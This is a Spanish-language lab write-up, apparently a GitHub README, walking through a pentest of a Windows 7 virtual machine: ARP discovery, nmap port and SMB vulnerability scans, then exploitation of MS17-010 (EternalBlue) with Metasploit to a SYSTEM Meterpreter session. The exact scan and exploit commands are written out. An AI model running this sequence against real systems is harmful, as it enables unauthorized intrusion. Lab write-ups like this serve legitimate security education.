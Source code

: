 
# Laboratorio de Pentesting Metodológico sobre Windows 7 SP1

![Windows 7 Logo](https://i.imgur.com/gQYyC8p.png)

Este repositorio documenta el proceso completo de un pentest realizado a una máquina virtual Windows 7 Professional SP1 (64-bit), desde el reconocimiento inicial hasta la obtención de privilegios de `SYSTEM`.

**Disclaimer:** *Todas las actividades documentadas aquí se realizaron en un entorno de laboratorio controlado y aislado, con máquinas de mi propiedad. Este proyecto tiene fines exclusivamente educativos para estudiar y comprender las fases de un ciberataque y las vulnerabilidades de sistemas sin parches. No intentes replicar estas acciones en sistemas que no te pertenezcan o para los cuales no tengas permiso explícito.*

---

## Índice de Fases

1.  [Fase 1: Reconocimiento](#fase-1-reconocimiento)
2.  [Fase 2: Escaneo y Enumeración](#fase-2-escaneo-y-enumeración)
3.  [Fase 3: Análisis de Vulnerabilidades](#fase-3-análisis-de-vulnerabilidades)
4.  [Fase 4: Explotación](#fase-4-explotación)
5.  [Fase 5: Post-Explotación](#fase-5-post-explotación)
6.  [Lecciones Aprendidas](#lecciones-aprendidas)

---

## Fase 1: Reconocimiento

**Objetivo:** Identificar los hosts activos en la red y localizar la IP de nuestra máquina objetivo.

Se utilizó `netdiscover` para realizar un sondeo ARP en la red local.

```bash
sudo netdiscover -r 192.168.1.0/24
```

**Resultado:** Se identificó al host `192.168.1.13` como nuestro objetivo, confirmado por su dirección MAC asociada a VirtualBox (`PCS Systemtechnik GmbH`).

---

## Fase 2: Escaneo y Enumeración

**Objetivo:** Descubrir los puertos abiertos, los servicios en ejecución y las versiones de software en la máquina objetivo.

Se utilizó `nmap` para un escaneo exhaustivo de todos los puertos TCP.

```bash
sudo nmap -sS -sV -O -p- -oN nmap_scan.txt 192.168.1.13
```
*   `-sS`: SYN Scan (sigiloso)
*   `-sV`: Detección de versiones de servicios
*   `-O`: Detección de Sistema Operativo
*   `-p-`: Escanear todos los 65,535 puertos TCP

**Hallazgos Clave:**
- **Puerto 445/tcp:** Abierto, corriendo el servicio `microsoft-ds` (SMB). **Este se convirtió en el principal vector de ataque potencial.**
- **Puerto 139/tcp:** Abierto, corriendo `netbios-ssn`.
- **Puerto 135/tcp:** Abierto, corriendo `msrpc`.

---

## Fase 3: Análisis de Vulnerabilidades

**Objetivo:** Analizar el servicio SMB en el puerto 445 en busca de vulnerabilidades conocidas.

Se utilizó el Nmap Scripting Engine (NSE) para ejecutar scripts específicos de detección de vulnerabilidades en SMB.

```bash
sudo nmap -p445 --script="smb-vuln*" -oN smb_vuln_scan.txt 192.168.1.13
```

**Resultado Crítico:** El objetivo fue identificado como **VULNERABLE** a **MS17-010 (EternalBlue)**.

```
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     Risk factor: HIGH
```

---

## Fase 4: Explotación

**Objetivo:** Explotar la vulnerabilidad MS17-010 para obtener acceso remoto al sistema.

Se utilizó el **Metasploit Framework** para configurar y lanzar el exploit.

**Secuencia en `msfconsole`:**
```
# 1. Iniciar Metasploit
msfconsole

# 2. Buscar el exploit
msf > search ms17-010

# 3. Seleccionar el exploit EternalBlue
msf > use exploit/windows/smb/ms17_010_eternalblue

# 4. Configurar la IP del objetivo
msf exploit(...) > set RHOSTS 192.168.1.13

# 5. Lanzar el ataque
msf exploit(...) > exploit
```
**Resultado:** Se obtuvo una sesión de Meterpreter exitosa, confirmando el acceso completo al sistema.

![Meterpreter Session](https://i.imgur.com/9nFk2dZ.png)

---

## Fase 5: Post-Explotación

**Objetivo:** Determinar el nivel de acceso obtenido y demostrar el control sobre el sistema.

El primer comando ejecutado en la sesión de Meterpreter fue para verificar la identidad del usuario.

```
meterpreter > getuid
```

**Resultado:**
```
Server username: NT AUTHORITY\SYSTEM
```
Se obtuvo el máximo nivel de privilegios posible en un sistema Windows, completando el objetivo del pentest.

---

## Lecciones Aprendidas

- La importancia crítica de mantener los sistemas operativos actualizados y parcheados. Una sola vulnerabilidad sin parchear (MS17-010) fue suficiente para comprometer totalmente el sistema.
- La eficacia de una metodología estructurada (Reconocimiento -> Escaneo -> Explotación).
- La diferencia fundamental en la postura de seguridad por defecto entre un sistema antiguo (Windows 7) y uno moderno (Windows 10), como se demostró en los escaneos preliminares.


